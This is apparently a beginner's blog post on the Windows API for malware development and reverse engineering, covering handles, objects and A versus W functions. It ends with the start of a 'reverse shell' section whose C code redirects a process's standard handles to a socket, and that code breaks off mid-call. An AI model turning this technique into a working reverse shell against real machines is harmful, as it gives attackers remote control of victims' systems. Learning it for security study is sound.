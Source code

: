 ```yaml
---
layout: post
title:  "Using and Abusing the Windows API"
date:   2024-12-25 15:00:00 -0600
categories: cybersecurity maldev networking
---
```


# Importance of the Windows API

The Windows API is central to developing tools and malware for machines running Windows. A basic understanding is crucial to learning cybersecurity and reverse engineering, I will run you through things I wish that I knew before I jumped into the documentation. 📚 

> This is definitly more of an absolute beginner's guide. If you already understand basics like W vs A functions, Handles, Access Tokens, etc., there is probably not much for you here.

# Handles and Objects

Handles appear everywhere in the API, especially when you are developing or reverse engineering malware. Creating processes, injecting into processes, duplicating tokens, changing registry keys, these are all things that require handles.

Handles refer to objects, system *things* that a programmer might want to interact with like tokens, processes, etc.

Instead of rewording it, here is the exact explaination from the [Windows Documentation](https://learn.microsoft.com/en-us/windows/win32/sysinfo/handles-and-objects).

>An object is a data structure that represents a system resource, such as a file, thread, or graphic image. Your application can't directly access object data, nor the system resource that an object represents. Instead, your application must obtain an object handle, which it can use to examine or modify the system resource. Each handle has an entry in an internally maintained table. Those entries contain the addresses of the resources, and the means to identify the resource type.

Handles are of type `HANDLE`.

# Quick Note on Windows functions.

If you take a look at the Windows docs, you will find that almost every function has both an A and W version, like `CreateProcessA` vs `CreateProcessW`. These two functions will do the same thing, however functions labeled with A use ANSI strings for input and output (1 Byte `char` strings), while W functions us Wide Strings for input and output (2 Byte `wchar_t` strings). Both types will be useful to us so keep track of them.

When writing wide strings, preceed them with an uppercase L.

{% highlight c %}
wchar_t message[] = L"Hello World!";
{% endhighlight %}

# Baby's First Reverse Shell

A great point that easily uses the Windows API for fun and profit is always some form of reverse shell. Look at the following example.

{% highlight c %}
int sockfd; // Lets assume we already have an open socket to communicate on.

STARTUPINFO sInfo;
memset(&sInfo, 0, sizeof sInfo);
sInfo.cb = sizeof sInfo;
sInfo.hStdInput = (HANDLE)sockfd;
sInfo.hStdOutput = (HANDLE)sockfd;
sInfo.hStdError = (HANDLE)sockfd;
sInfo.dwFlags = STARTF_USESTDHANDLES;

PROCESS_INFORMATION pInfo;

CreateProcessA(")
